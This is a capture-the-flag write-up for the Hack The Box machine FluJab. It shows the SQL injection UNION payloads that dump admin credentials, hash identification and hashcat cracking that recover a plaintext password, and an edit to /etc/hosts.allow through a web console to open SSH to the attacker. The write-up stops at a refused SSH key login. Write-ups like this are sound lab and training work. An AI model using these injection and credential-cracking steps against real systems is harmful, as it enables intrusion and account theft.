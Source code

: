 ## FluJab machine on HTB
### URL: https://app.hackthebox.com/machines/171
### Difficulty: Hard

## Solution
### Retrieving the Admin's account from the database
```
Query ==> hostnames
[Result #1] sysadmin-console-01.flujab.htb
[+] Payload sent: ' UNION SELECT 1, 2, GROUP_CONCAT(access), 4, 5 FROM vaccinations.admin -- -
Query ==> emails
[Result #2] syadmin@flujab.htb
[+] Payload sent: ' UNION SELECT 1, 2, GROUP_CONCAT(email), 4, 5 FROM vaccinations.admin -- -
Query ==> usernames
[Result #3] sysadm
[+] Payload sent: ' UNION SELECT 1, 2, GROUP_CONCAT(loginname), 4, 5 FROM vaccinations.admin -- -
Query ==> passwords
[Result #4] a3e30cce47580888f1f185798aca22ff10be617f4a982d67643bb56448508602
[+] Payload sent: ' UNION SELECT 1, 2, GROUP_CONCAT(password), 4, 5 FROM vaccinations.admin -- -
Query ==> 
```
### Cracking the Hash
After retrieving the hostname (`sysadmin-console-01.flujab.htb`), the username (`sysadm`), and the email address (`sysadmin@flujab.htb`), we discovered that the password for this user is stored as a hash: `a3e30cce47580888f1f185798aca22ff10be617f4a982d67643bb56448508602`.

```
soliman@Legion:~/hash-identifier$ /usr/bin/python3 hash-identifier.py
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: a3e30cce47580888f1f185798aca22ff10be617f4a982d67643bb56448508602

Possible Hashs:
[+] SHA-256
[+] Haval-256

Least Possible Hashs:
[+] GOST R 34.11-94
[+] RipeMD-256
[+] SNEFRU-256
[+] SHA-256(HMAC)
[+] Haval-256(HMAC)
[+] RipeMD-256(HMAC)
[+] SNEFRU-256(HMAC)
[+] SHA-256(md5($pass))
[+] SHA-256(sha1($pass))
--------------------------------------------------
```

```
soliman@Legion:~$ hashcat -m 1400 hash wordlists/rockyou.txt
hashcat (v6.2.5) starting

OpenCL API (OpenCL 2.0 pocl 1.8  Linux, None+Asserts, RELOC, LLVM 11.1.0, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=====================================================================================================================================
* Device #1: pthread-13th Gen Intel(R) Core(TM) i7-13700HX, 2848/5760 MB (1024 MB allocatable), 24MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 6 MB

Dictionary cache hit:
* Filename..: wordlists/rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

a3e30cce47580888f1f185798aca22ff10be617f4a982d67643bb56448508602:th3doct0r

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1400 (SHA2-256)
Hash.Target......: a3e30cce47580888f1f185798aca22ff10be617f4a982d67643...508602
Time.Started.....: Wed Jul  9 20:14:10 2025 (1 sec)
Time.Estimated...: Wed Jul  9 20:14:11 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  7198.4 kH/s (0.33ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 3280896/14344384 (22.87%)
Rejected.........: 0/3280896 (0.00%)
Restore.Point....: 3268608/14344384 (22.79%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: thaneerat -> testtest**+
Hardware.Mon.#1..: Util:  4%

Started: Wed Jul  9 20:13:58 2025
Stopped: Wed Jul  9 20:14:12 2025
soliman@Legion:~$
```
### Authentication Bypass
Login to https://sysadmin-console-01.flujab.htb:8080/view/login/normal using `sysadm`:`th3doct0r`

### RCE
After we logged-in successfully, we navigate to [Notepad](https://sysadmin-console-01.flujab.htb:8080/view/notepad) and click `Open` so we can allow our IP address to SSH to the machine by openning `/etc/hosts.allow` and add new couple of lines `sshd: <ATTACKER's IP ADDRESS>\nALL: 10.10.16.6` then click `Save`:
```
# grant ssh access per host
# syntax:
# sshd : [host ip]
###########################

sshd: 10.10.16.6
ALL: 10.10.16.6
```
**If we tried to SSH to the machine before Allowing our IP**
```
C:\Users\moham>ssh 10.10.10.124
kex_exchange_identification: read: Connection reset
Connection reset by 10.10.10.124 port 22

C:\Users\moham>
```
**If we tried to SSH to the machine after Allowing our IP**
```
C:\Users\moham>ssh 10.10.10.124
The authenticity of host '10.10.10.124 (10.10.10.124)' can't be established.
ED25519 key fingerprint is SHA256:DI5pLQ22nYlC140XgwyLNkRXIisiKpcqqXJ0cUncHjI.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.124' (ED25519) to the list of known hosts.
moham@10.10.10.124: Permission denied (publickey).

C:\Users\moham>
```
